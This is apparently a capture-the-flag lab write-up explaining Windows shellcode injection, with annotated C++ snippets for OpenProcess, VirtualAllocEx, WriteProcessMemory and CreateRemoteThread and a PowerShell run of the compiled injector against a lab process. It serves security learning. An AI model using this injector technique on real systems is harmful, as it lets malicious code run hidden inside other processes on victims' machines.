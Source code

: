 # Shellcode injection

Shellcode injection is the most basic form of process injection.

## Overview

| ![Shell injection](/_static/images/shell-injection.png) |
|:--:|
| How Windows API calls interact with process memory. |

1. Open a target process with all access rights ([OpenProcess](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess)).
2. Allocate target process memory for the shellcode ([VirtualAllocEx](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)).
3. Write shellcode to allocated memory in the target process ([WriteProcessMemory](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)).
4. Execute the shellcode using a remote thread ([CreateRemoteThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)).

## C++ Code

Open the target process supplied via the command-line:

```text
processHandle = OpenProcess(
	PROCESS_ALL_ACCESS, // Defines access rights
	FALSE, // Target handle will not be inhereted
	DWORD(atoi(argv[1])) // Local process supplied by command-line arguments 
);
```

Allocate memory to the byte size of the shellcode:

```text
remoteBuffer = VirtualAllocEx(
	processHandle, // Opened target process
	NULL, 
	sizeof shellcode, // Region size of memory allocation
	(MEM_RESERVE | MEM_COMMIT), // Reserves and commits pages
	PAGE_EXECUTE_READWRITE // Enables execution and read/write access to the commited pages
);
```

Use the allocated memory region to write our shellcode to memory regions:

```text
WriteProcessMemory(
	processHandle, // Opened target process
	remoteBuffer, // Allocated memory region
	shellcode, // Data to write
	sizeof shellcode, // byte size of data
	NULL
);
```

Execute the shellcode residing in memory:

```text
remoteThread = CreateRemoteThread(
	processHandle, // Opened target process
	NULL, 
	0, // Default size of the stack
	(LPTHREAD_START_ROUTINE)remoteBuffer, // Pointer to the starting address of the thread
	NULL, 
	0, // Ran immediately after creation
	NULL
);
```

Compile to create a basic process injector (`shellcode-injector.exe`).

## Injection

On the target machine, start up Powershell, and identify a `PID` of a process running as `THM-Attacker` to target 
(using Details tab of TaskManager). I chose the PID of the Powershell.

```text
PS C:\Users\THM-Attacker> cd .\Desktop\
PS C:\Users\THM-Attacker\Desktop> cd .\Injectors\
PS C:\Users\THM-Attacker\Desktop\Injectors> .\shellcode-injector.exe PID
```

Flag!

## Resources

* [MITRE: process injection](https://attack.mitre.org/techniques/T1055)
